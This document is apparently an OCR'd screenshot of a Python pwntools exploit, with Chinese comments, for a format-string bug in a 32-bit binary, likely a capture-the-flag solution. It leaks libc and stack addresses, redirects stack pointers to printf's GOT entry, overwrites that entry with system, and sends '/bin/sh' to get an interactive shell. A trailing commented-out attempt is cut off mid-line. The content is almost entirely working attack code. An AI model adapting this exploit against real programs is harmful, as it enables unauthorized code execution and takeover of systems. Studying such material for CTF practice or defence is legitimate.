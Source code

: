 ```python

r.sendline("#%15$p#")
r.recvuntil('#')
libc_start_main_addr = int(r.recv(10), 16) - 241
libc_start_main_off = libc.symbols['__libc_start_main']
libc_addr = libc_start_main_addr - libc_start_main_off
log.success('libc addr ===> {}'.format(hex(libc_addr)))
system_addr = libc_addr+ libc.symbols['system']
printf_got = elf.got['printf']


# leak出arg4和arg5的地址
r.sendline('qwer%6$p#')
r.recvuntil('qwer')
ebp = int(r.recvuntil('#')[:-1], 16)
arg4 = ebp-28
arg5 = ebp-24
log.success('arg4 addr ===> {:x}'.format(arg4))
log.success('arg5 addr ===> {:x}'.format(arg5))


# leak出arg22和arg23的值
r.sendline("qwer%21$p#%22$p#")
r.recvuntil('qwer')
arg22 = int(r.recvuntil('#')[:-1], 16)
arg23 = int(r.recvuntil('#')[:-1], 16)
log.success('arg22 point to ===> {:x}'.format(arg22))
log.success('arg23 point to ===> {:x}'.format(arg23))

p = '%' + str(arg4 & 0xffff) + 'c' + '%21$hn' + 'aaaa' + '%22$hnqwer'
r.sendline(p)
r.recvuntil('qwer')

# pause()
# 修改arg4和arg5的值，创造出printf_got和printf_got+2 这俩指针
low = printf_got & 0xffff
p = '%' + str(low) + 'c' + '%57$hn' + 'aa' + '%59$hnqwer'
r.sendline(p)
r.recvuntil('qwer')
# pause()

# debug()
#向printf_got中写入system
low = system_addr & 0xffff
high = system_addr >> 16
p = '%' + str(low) + 'c' + '%3$hn' + '%' + str(high-low) + 'c' + '%4$hnqwer'
r.sendline(p)
r.recvuntil('qwer')

r.sendline('/bin/sh\x00')

r.interactive()

'''
# 因为IO流爆了，调试了半天不太行
#写printf_got
low = printf_got & 0xffff
high = printf_got >> 16
p = "%" + str(low) + "c" + "%10$hn qwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(num + 2) + "c" + "%6$hhn qwer"
r.sendline(p)
```